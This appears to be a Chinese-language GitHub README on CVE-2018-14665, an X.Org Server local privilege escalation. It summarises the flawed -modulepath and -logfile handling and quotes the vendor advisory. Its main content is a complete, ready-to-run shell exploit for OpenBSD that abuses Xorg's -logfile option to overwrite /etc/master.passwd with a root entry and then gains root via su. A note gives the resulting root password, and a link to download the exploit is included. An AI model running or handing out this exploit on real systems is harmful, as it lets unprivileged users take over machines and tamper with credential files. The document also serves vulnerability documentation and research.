

# CVE-2018-14665 


## 0x00 简介

印度安全研究员Narendra Shinde在X.Org Server软件包中发现了一个普通账号提权root的高危漏洞（CVE-2018-14665），它影响了主要的Linux发行版，包括OpenBSD，Debian，Ubuntu，CentOS，Red Hat和Fedora。

Xorg X项目提供了X Window系统的开源实现（也就是X11，或简称X，它是位图显示的窗口系统。它提供了GUI环境的基本框架：在显示设备上绘制和移动窗口以及交互用鼠标和键盘。

Shinde发现Xorg X服务器无法正确处理和验证至少以下两个命令行参数的参数：

`-modulepath`：设置搜索Xorg服务器模块的目录路径，

`-logfile`：为Xorg服务器设置新的日志文件，而不是在大多数平台上使用位于/var/log/Xorg.n.log的默认日志。

根据Narendra Shinde的说法，低权限用户可以利用它来执行恶意代码并覆盖系统上的任何文件

两年多前，该漏洞被引入X.Org服务器1.19.0软件包中。

Xorg发布了有关CVE-2018-14665漏洞的安全公告。

```
“当X服务器以提升的权限运行时（即，安装Xorg并设置setuid位并由非root用户启动）。”读取Xorg  建议。 

“-modulepath参数可用于指定要在X服务器中加载的模块的不安全路径，允许在特权进程中执行非特权代码。

由于在解析选项时检查不正确，-logfile参数可用于覆盖文件系统中的任意文件。“

```
## 0x01 root

安全专家Matthew Hickey还发布了一个  概念验证  漏洞利用代码，可以让攻击者以3个或更少的命令接管易受攻击的系统。

Openbsd 的#0day LPE 通过 CVE-2018-14665 可以从远程 SSH 会话触发, 不需要在本地控制台上。攻击者可以从字面上接管3命令或更少的受影响的系统。

利用脚本：https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh



#### POC:

```
#!/bin/sh
# local privilege escalation in X11 currently
# unpatched in OpenBSD 6.4 stable - exploit
# uses cve-2018-14665 to overwrite files as root. 
# Impacts Xorg 1.19.0 - 1.20.2 which ships setuid
# and vulnerable in default OpenBSD. Errata: was 
# unpatched 0day for a day on release by Xorg for
# OpenBSD systems - patched 26-10-2018.
# 
# Credit for cve-2018-14665 goes to Narendra Shinde.
# Theo explains why this flaw made it into OpenBSD
# stable releases (tested 6.3 & 6.4) as 0day himself 
# here:
#
# https://marc.info/?l=openbsd-tech&r=1&b=201810&w=2
#
# "That is the first localhost root hole in quite a 
# long time." - Theo de Raadt 25/10/18
#
# This exploit works on OpenBSD 6.3 and 6.4, ymmv.
# requires the ability to run "su" and a local
# account. Run this exploit once and it will backup
# the original passwd file to /etc/master.passwd.old
#
# - https://hacker.house
echo [+] OpenBSD 6.4-stable local root exploit
cd /etc
Xorg -fp 'root:$2b$08$As7rA9IO2lsfSyb7OkESWueQFzgbDfCXw0JXjjYszKa8Aklt5RTSG:0:0:daemon:0:0:Charlie &:/root:/bin/ksh' -logfile master.passwd :1 &
sleep 5
pkill Xorg
echo [-] dont forget to mv and chmod /etc/master.passwd.old back 
echo [+] type 'Password1' and hit enter for root
su -
```

#### 注意：成功后root的新密码为Password1，原来系统的/etc/passwd文件会备份在/etc/master.passwd.old


## 0x02 参考链接

```
https://twitter.com/hackerfantastic

https://securityaffairs.co/wordpress/77402/hacking/cve-2018-14665-linux-distros.html

https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

```


